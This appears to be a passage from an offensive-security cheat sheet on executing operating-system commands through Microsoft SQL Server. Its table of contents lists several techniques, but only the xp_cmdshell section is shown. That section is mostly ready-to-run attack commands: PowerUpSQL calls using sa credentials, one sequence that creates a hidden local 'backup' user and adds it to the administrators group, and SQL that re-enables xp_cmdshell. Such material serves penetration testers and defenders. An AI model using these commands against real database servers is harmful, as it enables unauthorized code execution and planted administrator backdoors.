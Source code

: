 # MSSQL - Command Execution

## Summary

- [Command Execution via xp_cmdshell](#command-execution-via-xp_cmdshell)
- [Extended Stored Procedure](#extended-stored-procedure)
    - [Add the extended stored procedure and list extended stored procedures](#add-the-extended-stored-procedure-and-list-extended-stored-procedures)
- [CLR Assemblies](#clr-assemblies)
    - [Execute commands using CLR assembly](#execute-commands-using-clr-assembly)
    - [Manually creating a CLR DLL and importing it](#manually-creating-a-clr-dll-and-importing-it)
- [OLE Automation](#ole-automation)
    - [Execute commands using OLE automation procedures](#execute-commands-using-ole-automation-procedures)
- [Agent Jobs](#agent-jobs)
    - [Execute commands through SQL Agent Job service](#execute-commands-through-sql-agent-job-service)
    - [List All Jobs](#list-all-jobs)
- [External Scripts](#external-scripts)
    - [Python](#python)
    - [R](#r)

## Command Execution via xp_cmdshell

> xp_cmdshell disabled by default since SQL Server 2005

```ps1
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command whoami

# Creates and adds local user backup to the local administrators group:
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net user backup Password1234 /add'" -Verbose
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net localgroup administrators backup /add" -Verbose
```

- Manually execute the SQL query

 ```sql
 EXEC xp_cmdshell "net user";
 EXEC master..xp_cmdshell 'whoami'
 EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
 EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
 ```

- If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)

 ```sql
 EXEC sp_configure 'show advanced options',1;
 RECONFIGURE;
 EXEC sp_configure 'xp_cmdshell',1;
 RECONFIGURE;
 ```
